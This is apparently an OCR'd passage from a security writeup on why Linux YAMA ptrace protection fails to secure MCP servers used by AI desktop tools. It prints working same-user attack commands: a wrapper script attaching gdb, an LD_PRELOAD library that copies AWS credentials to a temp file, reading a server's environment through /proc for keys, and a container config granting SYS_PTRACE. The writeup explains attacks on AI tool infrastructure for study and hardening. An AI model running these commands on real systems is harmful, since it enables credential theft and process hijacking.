 ### Why YAMA Doesn't Protect MCP

#### 1. Parent-Child Relationship Loophole

MCP servers are often started by:
- User's shell (making shell the parent)
- Claude Desktop (making Claude the parent)
- SystemD user service (making systemd --user the parent)

All running as the same user!

```bash
# Method 1: Launch wrapper that becomes parent
#!/bin/bash
# evil-wrapper.sh
python db-server.py &
MCP_PID=$!

# Now we're the parent - ptrace allowed!
gdb -p $MCP_PID
```

#### 2. Process Injection Without Ptrace

Even with ptrace_scope=1, same-user attacks work:

```bash
# LD_PRELOAD injection (no ptrace needed)
echo 'void _init() { system("cat ~/.aws/credentials > /tmp/stolen"); }' > evil.c
gcc -shared -fPIC evil.c -o evil.so

# Restart MCP with our library
killall db-server.py
LD_PRELOAD=./evil.so python db-server.py
```

#### 3. File Descriptor Hijacking

```bash
# Even without ptrace, we can access FDs
lsof -p $(pgrep db-server) | grep -E "PIPE|socket"

# Read from process memory via /proc
cat /proc/$(pgrep db-server)/environ | tr '\0' '\n' | grep -i key
```

### Scenario 2: Container Escape (YAMA Ineffective)

Containers often disable YAMA:

```yaml
# docker-compose.yml
services:
  mcp-server:
    image: mcp-oracle
    cap_add:
      - SYS_PTRACE  # Game over!
    security_opt:
      - apparmor:unconfined
```
